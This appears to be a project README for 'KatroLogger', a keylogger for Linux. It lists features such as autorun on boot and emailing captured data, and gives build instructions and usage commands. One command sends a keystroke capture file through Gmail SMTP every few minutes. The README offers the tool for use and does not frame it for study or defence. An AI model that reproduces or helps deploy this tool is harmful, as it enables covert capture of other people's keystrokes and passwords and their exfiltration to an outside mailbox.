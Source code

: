 # KatroLogger
KeyLogger for Linux Systems.

- **Features**
  - Runs on GUI systems or CLI
  - Sending data by email
  - Autorun on boot

- **Dependencies**
- [libquickmail](https://sourceforge.net/projects/libquickmail/)
```
wget https://ufpr.dl.sourceforge.net/project/libquickmail/libquickmail-0.1.29.tar.xz
tar -xvf libquickmail-0.1.29.tar.xz
./autogen.sh && ./configure && make && make install
```

- **Compiling**
```Shell
./configure
make
make install
```
- **Usage**
```Shell
katrologger --output /path/file
```
- Send data by e-mail
```Shell
katrologger --smtps-url smtp.gmail.com --port 465 --mail-from <address> --mail-rcpt <address> --pass <password> --smtp-file /path/keyscan --time 10
```

- **Uninstall**
```Shell
make uninstall
```
